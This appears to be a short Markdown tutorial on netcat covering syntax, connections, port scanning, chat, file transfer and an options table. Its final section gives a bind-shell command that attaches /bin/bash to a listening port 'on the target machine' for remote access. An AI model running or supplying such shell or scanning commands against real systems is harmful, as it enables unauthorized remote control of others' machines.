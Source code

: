 # **Netcat Guide**

## **Basic Commands**

### **Basic Syntax**

```bash
nc [options] [IP Address or hostname] [port]
```

---

## **Connecting to a Server**

### **Example: Connect to a Simple TCP Server**

```bash
nc 192.168.1.10 80
```

This connects to **192.168.1.10** on port **80**.

---

## **Port Scanning**

### **Example: Scan a Range of Ports**

```bash
nc -zv 192.168.1.10 20-100
```

- **`-z`**: Zero I/O mode (for scanning).
- **`-v`**: Verbose mode (displays more details).

This scans ports **20** to **100** on **192.168.1.10** and shows which are open.

---

## **Setting Up a Simple Chat**

### **Step 1: Start a Listener**

On one machine, run:

```bash
nc -lvp 1234
```

- **`-l`**: Listen mode.
- **`-v`**: Verbose output.
- **`-p`**: Specify port (here, **1234**).

### **Step 2: Connect from Another Machine**

```bash
nc 192.168.1.5 1234
```

Replace **192.168.1.5** with the listener’s IP address. Now you can chat between the two machines!

---

## **File Transfer**

### **Send a File**

On the **sender** machine:

```bash
nc [receiver IP] 1234 < file.txt
```

### **Receive a File**

On the **receiver** machine:

```bash
nc -lvp 1234 > received.txt
```

This sends **file.txt** and saves it as **received.txt** on the receiver’s side.

---

## **Bind Shell (Remote Access)**

### **Start a Bind Shell (on the target machine)**

```bash
nc -lvp 4444 -e /bin/bash
```

- **`-e`**: Executes the specified program (**bash**).

### **Connect to the Shell**

```bash
nc [target IP] 4444
```

Now you have remote access to the target’s command line!

---

## **Common Options Summary**

| Option | Description |
|--------|-------------|
| `-l`   | Listen mode. |
| `-v`   | Verbose mode. |
| `-p`   | Specify a port. |
| `-z`   | Scan mode (no data transfer). |
| `-e`   | Execute a command (used for bind shells). |

---
